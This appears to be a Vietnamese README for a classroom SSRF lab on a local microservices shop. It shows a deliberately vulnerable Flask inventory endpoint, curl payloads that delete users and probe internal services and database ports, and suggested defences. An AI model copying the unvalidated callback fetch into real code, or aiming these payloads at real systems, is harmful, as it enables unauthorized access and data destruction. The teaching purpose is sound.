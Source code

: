 # SSRF Exploit Demo

## Lỗ hổng SSRF trong Inventory Service

### Mô tả
Inventory Service có lỗ hổng SSRF tại endpoint kiểm tra tồn kho. Service chấp nhận parameter `callback_url` và thực hiện HTTP request đến URL đó mà không validate.

### Endpoint dễ bị tấn công

```
GET /api/inventory/{product_id}/{size}?callback_url={url}
```

### Code dễ bị tấn công (inventory-service/app.py)

```python
@app.route('/api/inventory/<int:product_id>/<size>', methods=['GET'])
def get_inventory(product_id, size):
    # VULNERABLE: Accepts callback_url without validation
    callback_url = request.args.get('callback_url')
    
    if callback_url:
        try:
            # VULNERABLE: Making request to user-provided URL
            response = requests.get(callback_url, timeout=5)
            # This allows SSRF attacks!
        except Exception as e:
            print(f"Error: {str(e)}")
    
    # Return inventory data...
```

### Cách khai thác

#### Bước 1: Xem danh sách users (cần admin)

```bash
curl http://localhost:8081/api/users
```

Lấy ID của user muốn xóa, ví dụ: ID = 2

#### Bước 2: Khai thác SSRF để xóa user

Từ giao diện web:
1. Vào trang chi tiết sản phẩm bất kỳ
2. Chọn một size
3. Trong phần "SSRF Vulnerability Demo", nhập:

```
http://user-service:8081/api/users/delete/2
```

4. Click "Trigger SSRF Attack"

Hoặc dùng curl trực tiếp:

```bash
curl "http://localhost:8083/api/inventory/1/M?callback_url=http://user-service:8081/api/users/delete/2"
```

#### Bước 3: Kiểm tra user đã bị xóa

```bash
curl http://localhost:8081/api/users
```

User với ID = 2 sẽ không còn trong danh sách!

### Các exploit URLs khác

```bash
# Xóa user có ID = 1
http://user-service:8081/api/users/delete/1

# Xóa user có ID = 3
http://user-service:8081/api/users/delete/3

# Lấy danh sách users (nếu endpoint không có auth)
http://user-service:8081/api/users

# Truy cập các internal services khác
http://product-service:8082/api/products/

# Scan internal network
http://postgres-user:5432
http://postgres-product:5432
```

### Tại sao lỗ hổng này nguy hiểm?

1. **Bypass Authentication**: Endpoint `/api/users/delete/{id}` không yêu cầu authentication, nhưng nó không được expose ra ngoài. Attacker có thể dùng SSRF để gọi nó từ bên trong.

2. **Access Internal Services**: Có thể truy cập các services chỉ có trong Docker network, không expose ra public.

3. **Port Scanning**: Có thể scan các ports internal để tìm thêm services.

4. **Data Exfiltration**: Có thể đọc dữ liệu từ internal APIs.

### Cách phòng chống

1. **Whitelist URLs**: Chỉ cho phép callback đến một số domain/IPs được phê duyệt

```python
ALLOWED_HOSTS = ['api.trusted-domain.com']

def is_safe_url(url):
    parsed = urlparse(url)
    return parsed.hostname in ALLOWED_HOSTS
```

2. **Disable Internal Network Access**: Không cho phép request đến private IPs

```python
import ipaddress

def is_private_ip(hostname):
    try:
        ip = ipaddress.ip_address(hostname)
        return ip.is_private
    except:
        return False
```

3. **Input Validation**: Validate và sanitize tất cả user inputs

4. **Authentication**: Yêu cầu authentication cho tất cả sensitive endpoints

5. **Network Segmentation**: Tách biệt các services quan trọng

### Demo Video Flow

1. **Setup**:
   - Start system: `docker-compose up`
   - Register admin account
   - Create some products
   - Register a few test users

2. **Demonstrate Normal Flow**:
   - Show product listing
   - Click product detail
   - Select size → show inventory (normal behavior)

3. **Demonstrate SSRF**:
   - Go to Admin → Manage Users
   - Show list of users (note IDs)
   - Go to product detail page
   - Enter SSRF payload in callback URL field
   - Click "Trigger SSRF Attack"
   - Go back to Admin → Manage Users
   - Show that user was deleted!

4. **Show Logs**:
   ```bash
   docker-compose logs inventory-service
   ```
   - Show the SSRF request in logs

### Tài liệu tham khảo

- [OWASP SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
- [PortSwigger SSRF](https://portswigger.net/web-security/ssrf)
- [HackerOne SSRF Reports](https://hackerone.com/reports?query=SSRF)
